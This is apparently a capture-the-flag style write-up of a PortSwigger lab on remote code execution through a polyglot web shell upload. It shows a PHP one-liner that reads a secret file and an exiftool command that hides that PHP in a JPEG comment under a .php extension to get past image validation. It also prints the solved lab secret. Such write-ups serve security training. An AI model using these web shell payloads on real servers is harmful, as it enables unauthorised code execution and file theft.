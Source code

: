 
### Remote code execution via polyglot web shell upload : PRACTITIONER

---


> We need to read contents of the `/home/carlos/secret` file.
> Given login credentials `wiener:peter`.


> Logging in as wiener.

![](./screenshots/lab1-login.png)

> We see this my-account page.

![](./screenshots/lab1-account.png)


> Trying to upload a php shell to obtain the secret file, while having BURPSUITE PROXY HTTP history open
```PHP
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
> `shell.php`.

> We get this response.

![](./screenshots/lab6-err.png)

> We need the file we upload to have its actual content validated to be an image, but we can play with the metadata to put our php script there.

> We can do that using the `exiftool` in the command line, by adding a comment to the metadata of the picture we have.
``` Bash
exiftool -comment="mins" raven.jpg
```

> If we now run `exiftool raven.jpg` to see the metadata of the file.

![](./screenshots/lab6-pic.png)

> If we can change this comment to something more malicious, and then save the `.jpg` file into a `.php` file extension, we will have a file with the metadata of an image but an extension of an executable.
> This might bypass the filters on the webserver.
```bash
exiftool -comment="<?php echo 'HERE ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" -o attack1.php
```
> Added the `HERE ` and ` END` with string concatenation to be able to quickly find the output of the command between them.
> Added the `-o` flag to indicate the new output file we saved into.

> Now, if we upload this file and monitor the response.

![](./screenshots/lab6-upload.png)

> Going back to my-account and viewing the image slot in a new tab.
> We can look for the command output by looking for the HERE and END.

![](./screenshots/lab6-res.png)

> We see the secret printed out between them.
> Copying it and submitting it to solve the lab.
```
GTgQ0awCkMIU8w2JUOVf1FjKjzGQ5tIw
```

---
